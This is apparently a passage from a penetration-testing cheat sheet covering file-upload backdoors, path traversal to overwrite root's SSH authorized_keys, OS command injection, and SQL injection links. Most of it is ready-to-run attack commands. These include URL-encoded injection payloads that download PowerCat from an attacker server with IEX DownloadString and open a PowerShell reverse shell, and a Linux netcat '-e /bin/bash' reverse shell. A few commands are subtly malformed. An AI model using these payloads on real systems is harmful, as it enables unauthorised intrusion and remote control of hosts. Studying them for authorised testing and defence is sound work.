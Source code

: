 - `curl http://target.ip.address/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20pastedversionof$encodedText`
- Check netcat listener for reverse shell

# File Upload with non-executables
- Use Burp Suite to capture a test upload  of `test.txt` file
- Change filename in request to `../../../../../../../../test.txt` to see if upload is successful
- If target runs SSH, then try overwriting a file like `authorized_keys`
	- `ssh-keygen` with filename `fileup`, then `cat fileup.pub > authorized_keys`
	- Upload `authorized_keys` to `../../../../../../../../root/.ssh/authorized_keys
	- clear `known_hosts` file: `rm ~/.ssh/known_hosts`
	- `ssh -p 2222 -i fileup root@target.ip.address`

# OS Command Injection
Run Burpsuite and test command injection into a field
- Look for URL encoded version of command in Burp to ID field (eg. Archive)
- Send POST request with curl: `curl -X POST --data 'Archive=git version' http://target.ip.address:port/archive`
	- Git for Windows will output version & "windows"
	- Git for Linux only shows version number
- Send POST request with curl & 2nd command: `curl -X POST --data 'Archive=git%3Bipconfig' http://target.ip.address.here:port/archive`
- Test if CMD or PowerShell will run with: [(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell]
	- [URL Encoding](https://meyerweb.com/eric/tools/dencoder/): `curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://target.ip.address.here:port:8000/archive`
- If it shows PowerShell (pwsh), use PowerCat to create a reverse shell
	- Copy Powercat to directory: `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
	- Start http server from same directory: `python3 -m http.server 80`
	- Start Netcat listener in another tab: `nc -nvlp 4444`
	- PowerShell one-liner for PowerCat download/shell start: `IEX (New-Object System.Net.Webclient).DownloadString("http://target.ip.address/powercat.ps1");powercat -c netcat.ip.address.here -p 4444 -e powershell`
	- Send POST request with PowerShell one-liner URL Encoded: `curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2Fnetcat.ip.address.here%2Fpowercat.ps1%22)%3Bpowercat%20-c%20netcat.ip.address.here%20-p%204444%20-e%20powershell' http://target.ip.address.here:port/archive`
		- Check tab with http server for GET request
		- Check tab with netcat for reverse shell (PowerShell)
- For Linux,
	- Start netcat listener `nc -nvlp 4444
	- Open 2nd terminal and run netcat one-liner inside curl command `curl -X POST --data 'Archive=git%3Bnc%20netcat.ip.address.here%4444%20-e%20/bin/bash' http://target.ip.address.here/archive`
	- Return to netcat listener for shell, upgrade to Full TTY with python if necessary: `python -c 'import pty; pty.spawn("/bin/bash")'192.

# SQL Injection Attacks
- [https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)  
- [https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt)  
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
### **mysql**
- Remember to add `;` to the end of commands!
- Connect with `mysql -u root -p'root' -h target.ip.address.here -P 3306` 
	- If there's an SSL certificaste issue, add `--skip-ssl-verify-server-cert` on the end